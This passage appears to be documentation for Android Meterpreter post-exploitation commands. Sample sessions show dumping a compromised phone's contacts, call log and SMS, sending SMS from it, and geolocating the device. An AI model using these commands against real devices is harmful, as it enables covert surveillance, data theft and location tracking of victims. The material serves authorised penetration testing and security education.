 ```
The ```activity_start``` command is an execute command by starting an Android activity from a URI
string.

**check_root**

The ```check_root``` command detects whether your payload is running as root or not. Example:

```
meterpreter > check_root
[*] Device is not rooted
```

**dump_calllog**

The ```dump_calllog``` command retrieves the call log from the Android device.

**dump_contacts**

```
meterpreter > dump_contacts
[*] Fetching 5 contacts into list
[*] Contacts list saved to: contacts_dump_20160308155744.txt
```

**geolocate**

The ```geolocate``` commands allows you to locate the phone by retrieving the current lat-long
using geolocation.

**wlan_geolocate**

The ```wlan_geolocation``` command allows you to locate the phone by retrieving the current
lat-long using WLAN information. Example:

```
meterpreter > wlan_geolocate
[*] Google indicates the device is within 150 meters of 30.*******,-97.*******.
[*] Google Maps URL:  https://maps.google.com/?q=30.*******,-97.*******
```

**send_sms**

The ```send_sms``` command allows you to send an SMS message. Keep in mind the phone will keep a
copy of it, too.

```
meterpreter > send_sms -d "2674554859" -t "hello"
[+] SMS sent - Transmission successful
```

**sms_dump**

The ```sms_dump``` command allows you to retrieve SMS messages. And save them as a text file.
For example:

```
meterpreter > dump_sms
[*] Fetching 4 sms messages
[*] SMS messages saved to: sms_dump_20160308163212.txt
